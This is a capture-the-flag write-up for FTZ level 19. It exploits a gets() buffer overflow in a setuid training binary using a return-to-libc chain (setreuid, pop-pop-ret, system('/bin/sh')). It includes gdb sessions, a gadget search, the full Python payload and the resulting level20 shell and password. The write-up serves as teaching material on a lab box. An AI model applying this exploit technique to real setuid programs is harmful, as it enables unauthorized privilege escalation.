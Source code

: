 # Level19

## This level's goal
- Chaining return to lib

***

```
[level19@ftz level19]$ ls -l
-rwsr-x---    1 level20  level19     13615 Mar  8  2003 attackme
-rw-r-----    1 root     level19        65 Mar  8  2003 hint

[level19@ftz level19]$ cat hint

main()
{ 
  char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

```
[level19@ftz level19]$ gdb -q attackme
(gdb) disass main
0x08048443 <main+3>:    sub    esp,0x28
```

0x28 means 40bytes, so then 40bytes + SFP(4bytes) + RET(4bytes)

```
[level19@ftz level19]$ cp attackme tmp/
[level19@ftz level19]$ gdb -q tmp/attackme
(gdb) b *main
(gdb) run
Starting program: /home/level19/tmp/attackme

(gdb) p system
$1 = {<text variable, no debug info>} 0x4203f2c0 <system>

(gdb) p setreuid
$2 = {<text variable, no debug info>} 0x420d7920 <setreuid>
```

As above, I could get the system's and setreuid's address.

```
[level19@ftz tmp]$ cat getsh.c
#include <stdio.h>
int main()
{
        long shell = 0x4203f2c0;
        while ( memcmp((void*) shell, "/bin/sh", 8) )
        {
                shell++;
        }
        printf("0x%x\n", shell);
        return 0;
}
[level19@ftz tmp]$ gcc getsh.c -o getsh
[level19@ftz tmp]$ ./getsh
0x42127ea4
```

Now, I got /bin/sh's adress in system() function.

And then I need to get setreuid's argvs.

```
[level19@ftz tmp]$ cat /etc/passwd | grep level20
level20:x:3100:3100::/home/level20:/bin/bash
```

Level20's uid is 3100 means 0x0000C1C(HEX).

```
[level19@ftz tmp]$ objdump -d attackme | egrep 'pop|ret'
 80482d3:       c3                      ret
 8048342:       5e                      pop    %esi
 804836e:       5b                      pop    %ebx
 8048385:       c3                      ret
 80483eb:       5d                      pop    %ebp
 80483ec:       c3                      ret
 80483f8:       5d                      pop    %ebp
 80483f9:       c3                      ret
 8048426:       5d                      pop    %ebp
 8048427:       c3                      ret
 8048438:       5d                      pop    %ebp
 8048439:       c3                      ret
 804846a:       c3                      ret
 804849c:       58                      pop    %eax
 804849d:       5b                      pop    %ebx
 804849e:       5d                      pop    %ebp
 804849f:       c3                      ret
 80484a8:       5d                      pop    %ebp
 80484a9:       c3                      ret
 80484ba:       5b                      pop    %ebx
 80484cd:       c3                      ret
```

For the chaining method, PPR's address(pop-pop-ret) is 804849d.

As a result, the attack code will be 44 bytes dummy stirngs + setreuid address + PPR address + ruid + euid + system address + dummy(4bytes) + /bin/sh address.
setreuid address = 0x420d7920   
PPR address = 0x804849d   
ruid and euid = 0x0000C1C
system address = 0x4203f2c0
/bin/sh address = 0x42127ea4

```
[level19@ftz level19]$ (python -c 'print "A"*44+"\x20\x79\x0d\x42"+"\x9d\x84\x04\x08"+"\x1c\x0c\x00\x00"+"\x1c\x0c\x00\x00"+"\xc0\xf2\x03\x42"+"A"*4+"\xa4\x7e\x12\x42"'; cat) | ./attackme

id
uid=3100(level20) gid=3099(level19) groups=3099(level19)

my-pass
Level20 Password is "we are just regular guys".
```
